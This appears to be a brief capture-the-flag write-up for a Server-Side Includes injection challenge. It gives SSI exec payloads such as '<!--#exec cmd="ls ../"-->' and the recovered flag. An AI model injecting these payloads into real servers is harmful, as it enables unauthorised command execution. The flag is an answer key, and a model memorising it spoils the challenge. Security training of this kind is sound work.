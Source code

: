 


**Challenge 8**
Requirements: Knowledge of SSI (dynamic html executed by the server, rather than the browser)

Notes : https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection 
Linux - <!--#exec cmd="ls" -->
Window - <!--#exec cmd="dir" -->

***Solution***
1. It is using SSI in Linux
2. We can use the format <!--#exec cmd="{ }"-->
3. There mentioned where is the password hidden. Hence, we can try to use <!--#exec cmd="ls ../"-->

Answer : au12ha39vc



